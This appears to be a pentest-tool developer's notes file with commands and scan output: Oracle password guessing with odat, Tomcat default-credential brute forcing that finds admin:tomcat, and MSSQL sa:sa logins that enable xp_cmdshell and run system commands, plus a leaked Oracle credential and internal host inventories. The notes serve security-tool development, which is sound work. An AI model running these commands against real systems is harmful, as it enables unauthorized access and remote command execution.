17:17:05 DEBUG -: Oracle connection string: APPS/APPS@10.190.98.115:1521/LISTENER
=> correction:
/bin/bash -c "export ORACLE_HOME=`file /usr/lib/oracle/*/client64/ | tail -n 1 | cut -d':' -f1`; export LD_LIBRARY_PATH=$LD_LIBRARY_PATH:$ORACLE_HOME/lib; export PATH=$ORACLE_HOME/bin:$PATH; python2.7 odat.py passwordguesser -s 10.190.98.114 -p 1521 -d SCAN3 -vv --force-retry --accounts-file accounts/accounts_multiple.txt"


- More default creds for mssql
https://github.com/mubix/post-exploitation-wiki/blob/master/windows/mssql.md












- smartmodule method changeme:

Loaded 113 default credential profiles
Loaded 324 default credentials

[10:57:26] Configured protocols: http
[10:57:26] Loading creds into queue
[10:57:26] Apache Tomcat basic auth matched: Tomcat Manager Application
[10:57:26] Apache Tomcat Host Manager basic auth matched: Tomcat Host Manager Application
[10:57:26] Fingerprinting completed
[10:57:26] Invalid Apache Tomcat default cred tomcat:tomcat at http://10.250.87.209:8080/manager/html
[10:57:26] Invalid Apache Tomcat default cred tomcat:tomcat at http://10.250.87.209:8080/tomcat/manager/html
[10:57:26] Invalid Apache Tomcat default cred admin:admin at http://10.250.87.209:8080/tomcat/manager/html
[10:57:26] Invalid Apache Tomcat default cred admin:admin at http://10.250.87.209:8080/manager/html
[10:57:26] Invalid Apache Tomcat default cred ovwebusr:OvW*busr1 at http://10.250.87.209:8080/manager/html
[10:57:26] Invalid Apache Tomcat default cred ovwebusr:OvW*busr1 at http://10.250.87.209:8080/tomcat/manager/html
[10:57:26] Invalid Apache Tomcat default cred j2deployer:j2deployer at http://10.250.87.209:8080/tomcat/manager/html
[10:57:26] Invalid Apache Tomcat default cred cxsdk:kdsxc at http://10.250.87.209:8080/manager/html
[10:57:26] Invalid Apache Tomcat default cred ADMIN:ADMIN at http://10.250.87.209:8080/tomcat/manager/html
[10:57:26] Invalid Apache Tomcat default cred xampp:xampp at http://10.250.87.209:8080/manager/html
[10:57:26] Invalid Apache Tomcat default cred cxsdk:kdsxc at http://10.250.87.209:8080/tomcat/manager/html
[10:57:26] Invalid Apache Tomcat default cred xampp:xampp at http://10.250.87.209:8080/tomcat/manager/html
[10:57:27] Invalid Apache Tomcat default cred QCC:QLogic66 at http://10.250.87.209:8080/manager/html
[10:57:27] Invalid Apache Tomcat default cred QCC:QLogic66 at http://10.250.87.209:8080/tomcat/manager/html
[10:57:27] Invalid Apache Tomcat default cred tomcat:s3cret at http://10.250.87.209:8080/tomcat/manager/html
[10:57:27] Invalid Apache Tomcat default cred admin:None at http://10.250.87.209:8080/tomcat/manager/html
[10:57:27] Invalid Apache Tomcat Host Manager default cred tomcat:tomcat at http://10.250.87.209:8080/host-manager/html
[10:57:27] Invalid Apache Tomcat Host Manager default cred ovwebusr:OvW*busr1 at http://10.250.87.209:8080/host-manager/html
[10:57:27] Invalid Apache Tomcat default cred root:root at http://10.250.87.209:8080/tomcat/manager/html
[10:57:27] Invalid Apache Tomcat Host Manager default cred cxsdk:kdsxc at http://10.250.87.209:8080/host-manager/html
[10:57:27] Invalid Apache Tomcat default cred role1:role1 at http://10.250.87.209:8080/manager/html
[10:57:27] Invalid Apache Tomcat Host Manager default cred ADMIN:ADMIN at http://10.250.87.209:8080/host-manager/html
[10:57:27] Invalid Apache Tomcat default cred role1:role1 at http://10.250.87.209:8080/tomcat/manager/html
[10:57:27] Invalid Apache Tomcat Host Manager default cred xampp:xampp at http://10.250.87.209:8080/host-manager/html
[10:57:27] Invalid Apache Tomcat default cred role:changethis at http://10.250.87.209:8080/manager/html
[10:57:27] Invalid Apache Tomcat Host Manager default cred tomcat:s3cret at http://10.250.87.209:8080/host-manager/html
[10:57:27] Invalid Apache Tomcat default cred role:changethis at http://10.250.87.209:8080/tomcat/manager/html
[10:57:27] Invalid Apache Tomcat Host Manager default cred QCC:QLogic66 at http://10.250.87.209:8080/host-manager/html
[10:57:27] Invalid Apache Tomcat default cred tomcat:changethis at http://10.250.87.209:8080/manager/html
[10:57:27] Invalid Apache Tomcat Host Manager default cred admin:None at http://10.250.87.209:8080/host-manager/html
[10:57:27] Invalid Apache Tomcat default cred tomcat:changethis at http://10.250.87.209:8080/tomcat/manager/html
[10:57:27] Invalid Apache Tomcat Host Manager default cred admin:tomcat at http://10.250.87.209:8080/host-manager/html
[10:57:27] Invalid Apache Tomcat default cred admin:j5Brn9 at http://10.250.87.209:8080/manager/html
[10:57:27] Invalid Apache Tomcat Host Manager default cred root:root at http://10.250.87.209:8080/host-manager/html
[10:57:27] Invalid Apache Tomcat default cred admin:j5Brn9 at http://10.250.87.209:8080/tomcat/manager/html
[10:57:27] Invalid Apache Tomcat Host Manager default cred role1:role1 at http://10.250.87.209:8080/host-manager/html
[10:57:27] Invalid Apache Tomcat default cred role1:tomcat at http://10.250.87.209:8080/manager/html
[10:57:27] Invalid Apache Tomcat Host Manager default cred role:changethis at http://10.250.87.209:8080/host-manager/html
[10:57:27] Invalid Apache Tomcat default cred role1:tomcat at http://10.250.87.209:8080/tomcat/manager/html
[10:57:27] Invalid Apache Tomcat Host Manager default cred tomcat:changethis at http://10.250.87.209:8080/host-manager/html
[10:57:27] Invalid Apache Tomcat Host Manager default cred admin:j5Brn9 at http://10.250.87.209:8080/host-manager/html
[10:57:27] Invalid Apache Tomcat Host Manager default cred role1:tomcat at http://10.250.87.209:8080/host-manager/html
[10:57:27] Invalid Apache Tomcat default cred j2deployer:j2deployer at http://10.250.87.209:8080/manager/html
[10:57:27] Invalid Apache Tomcat default cred ADMIN:ADMIN at http://10.250.87.209:8080/manager/html
[10:57:27] Invalid Apache Tomcat default cred tomcat:s3cret at http://10.250.87.209:8080/manager/html
[10:57:27] Invalid Apache Tomcat default cred admin:None at http://10.250.87.209:8080/manager/html
[10:57:27] Invalid Apache Tomcat Host Manager default cred admin:admin at http://10.250.87.209:8080/host-manager/html
[10:57:27] [+] Found Apache Tomcat default cred admin:tomcat at http://10.250.87.209:8080/manager/html
[10:57:27] [+] Found Apache Tomcat default cred : at http://10.250.87.209:8080/manager/html
[10:57:27] Invalid Apache Tomcat Host Manager default cred j2deployer:j2deployer at http://10.250.87.209:8080/host-manager/html
[10:57:30] Invalid Apache Tomcat default cred root:root at http://10.250.87.209:8080/manager/html
[10:57:30] Invalid Apache Tomcat default cred admin:tomcat at http://10.250.87.209:8080/tomcat/manager/html
[10:57:30] Scanning Completed


[10:57:30] Found 1 default credentials

Name           Username    Password    Target                                  Evidence
-------------  ----------  ----------  --------------------------------------  ----------
Apache Tomcat  admin       tomcat      http://10.250.87.209:8080/manager/html


==> m = re.findall('\[\+\] Found (.*) default cred (\S*):(\S*) ', text)

- Mode fast => ne pas reafficher table des targets au debut de chaque target

- MSSQL - postexploit
/bin/bash -c 'python2.7 msdat.py all -s 10.244.214.126 -p 1433 -U sa -P sa -v <<< C'; 

- MSSQL postexploit add shell exec:
python2.7 msdat.py xpcmdshell -s 10.244.214.126 -p 1433 -U sa -P sa -v --enable-xpcmdshell
/bin/bash -c 'python2.7 msdat.py xpcmdshell -s 10.244.214.126 -p 1433 -U sa -P sa -v --shell <<< "whoami && net user"''

- IMPORTANT: encadrer par /bin/bash -c '...' pour toutes les cmds avec <<< any

- impacket install => add sudo pip2 install .
  + reinstall dans docker

- smb => smbexec: also add psexec.py / wmiexec.py


- 
[2018-11-15 03:48PM]  JBoss HTTP Headers (Unreliable) (version 4.2)
[2018-11-15 03:48PM]  JBoss RMI Interface (version Any)
[2018-11-15 03:48PM]  JBoss Status Page (version Any)
[2018-11-15 03:48PM] Fingerprinting completed.
[2018-11-15 03:48PM] Loading auxiliary for 'jboss'...
[2018-11-15 03:48PM] Finished at 2018-11-15 03:48PM

- example de confusion tomcat / jboss :

Server JBoss :
| >207 | 10.244.120.34  | 10.244.120.34  | 8080 | tcp   | http    | product: Apache Tomcat/Coyote JSP engine version: 1.1                 | http://10.244.120.34:8080 

[*] [SMART] Wappalyzer fingerprinting returns: ['java', 'jboss-application-server', 'apache-tomcat', 'java-servlet', 'jboss-web']
[+] [SMART] New detected option: server = tomcat
[+] [SMART] New detected option: language = java
[+] [SMART] Change option: server = tomcat -> jboss
[+] [SMART] Change option: server = jboss -> tomcat
[+] [SMART] Change option: server = tomcat -> jboss


- exemple detection plusieurs version JBoss:
2018-11-15 05:04PM] Making GET request to http://10.244.120.34:8080/status?full=true with arguments {'verify': False, 'timeout': 5.0}
[2018-11-15 05:04PM] Matched 5 fingerprints for service jboss
[2018-11-15 05:04PM]    JBoss Web Manager (version 5.1)
[2018-11-15 05:04PM]    JBoss EJB Invoker Servlet (version Any)
[2018-11-15 05:04PM]    JBoss HTTP Headers (Unreliable) (version 5.0)
[2018-11-15 05:04PM]    JBoss JMX Invoker Servlet (version Any)
[2018-11-15 05:04PM]    JBoss RMI Interface (version Any)
[2018-11-15 05:04PM] Fingerprinting completed.
[2018-11-15 05:04PM] Loading auxiliary for 'jboss'...
[2018-11-15 05:04PM] Finished at 2018-11-15 05:04PM

                                                                                                                                                                                                      


[*] [SMART] Running post-check method "clusterd_detect_server" ...
[*] [SMART] Detected option (no update): server = jboss


- Add start method in SmartModules that detect product from grabbed banner in service.banner
   and update OS if ostype 

    example:
    product: Microsoft IIS httpd version: 6.0 ostype: Windows 
    product: Apache httpd version: 2.2.4 extrainfo: (Unix) DAV/2
    product: Apache httpd version: 2.0.63 extrainfo: DAV/2 hostname
    product: Microsoft Windows 7 - 10 microsoft-ds extrainfo:        |                             |                      | 0      |       |
|      |                |      |       |         | workgroup: FRA hostname: F98W00189184 ostype: Windows 
product: Web-Server httpd version: 3.0 extrainfo: Ricoh Aficio   | http://10.250.236.149:80    |                      | 1      |       |
|      |                |      |       |         | printer web image monitor devicetype: printer
product: Oracle TNS listener version: 12.1.0.2.0 
product: Apache Tomcat/Coyote JSP engine version: 1.1 
product: IBM Tivoli Enterprise Portal extrainfo: Servlet 3.
product: Microsoft SQL Server 2012 version: 11.00.6020; SP3 
product: VMware Workstation SOAP API version: 14.0.0 
product: Jetty version: 8.1.3.v20120522
| 9604 | 10.102.235.134 | 1433  | tcp   | mssql   | product: Microsoft SQL Server 2014 version: 12.00.2000 ostype:    |     |         | 1      |       |
|      |                |       |       |         | Windows                                                           |     |         |        |       |
| 9605 | 10.5.4.85      | 1433  | tcp   | mssql   | product: Microsoft SQL Server 2012 version: 11.00.7001 ostype:    |     |         | 1      |       |
|      |                |       |       |         | Windows                                                           |     |         |        |       |
| 9606 | 10.2.25.53     | 1433  | tcp   | mssql   | product: Microsoft SQL Server 2012 version: 11.00.7462 ostype:    |     |         | 1      |       |
|      |                |       |       |         | Windows                                                           |     |         |        |       |
| 9607 | 10.2.152.50    | 56531 | tcp   | mssql   | product: Microsoft SQL Server 2008 R2 version: 10.50.1600; RTM    |     |         | 1      |       |
|      |                |       |       |         | ostype: Windows                                                   |     |         |        |       |
| 9608 | 10.62.8.1      | 50456 | tcp   | mssql   | product: Microsoft SQL Server 2008 R2 version: 10.50.2500; SP1    |     |         | 1      |       |
|      |                |       |       |         | ostype: Windows                                                   |     |         |        |       |
| 9609 | 10.2.208.38    | 1433  | tcp   | mssql   | product: Microsoft SQL Server 2005 version: 9.00.5000; SP4        |     |         | 1      |       |
|      |                |       |       |         | ostype: Windows                                                   |     |         |        |       |
| 9610 | 10.102.42.95   | 64778 | tcp   | mssql   | product: Microsoft SQL Server 2005 version: 9.00.1399; RTM        |     |         | 1      |       |
|      |                |       |       |         | ostype: Windows                                                   |     |         |        |       |
| 9611 | 10.102.235.165 | 57454 | tcp   | mssql   | product: Microsoft SQL Server 2014 version: 12.00.2000 ostype:    |     |         | 1      |       |
|      |                |       |       |         | Windows                                                           |     |         |        |       |
| 9612 | 10.2.25.140    | 55374 | tcp   | mssql   | product: Microsoft SQL Server 2008 R2 version: 10.50.1600; RTM    |     |         | 1      |       |
|      |                |       |       |         | ostype: Windows                                                   |     |         |        |       |
| 9613 | 10.2.209.186   | 1433  | tcp   | mssql   | product: Microsoft SQL Server 2008 R2 version: 10.50.2425 ostype: |     |         | 1      |       |
|      |                |       |       |         | Windows                                                           |     |         |        |       |
| 9614 | 10.2.28.41     | 1433  | tcp   | mssql   | product: Microsoft SQL Server 2012 version: 11.00.2100; RTM       |     |         | 1      |       |
|      |                |       |       |         | ostype: Windows                                                   |     |         |        |       |
| 9615 | 10.2.153.31    | 1433  | tcp   | mssql   | product: Microsoft SQL Server 2012 version: 11.00.7462 ostype:    |     |         | 1      |       |
|      |                |       |       |         | Windows                                                           |     |         |        |       |
| 9616 | 10.2.25.109    | 55256 | tcp   | mssql   | product: Microsoft SQL Server 2008 R2 version: 10.50.1600; RTM    |     |         | 1      |       |
|      |                |       |       |         | ostype: Windows                                                   |     |         |        |       |
| 9617 | 10.1.98.127    | 1433  | tcp   | mssql   | product: Microsoft SQL Server 2008 R2 version: 10.50.4000; SP2    |     |         | 1      |       |
|      |                |       |       |         | ostype: Windows                                                   |     |         |        |       |
+------+----------------+-------+-------+---------+-----------------------



- cve jquery
- cve ssh
- vulners-lookup
- cvedetails-lookup
- jndiat
- check https://bitvijays.github.io/LFF-IPS-P2-VulnerabilityAnalysis.html
- nmap command -> IP
- correct start module http 



Services to add
===============
* NFS
* MongoDB
* RPC
* DNS
* LDAP
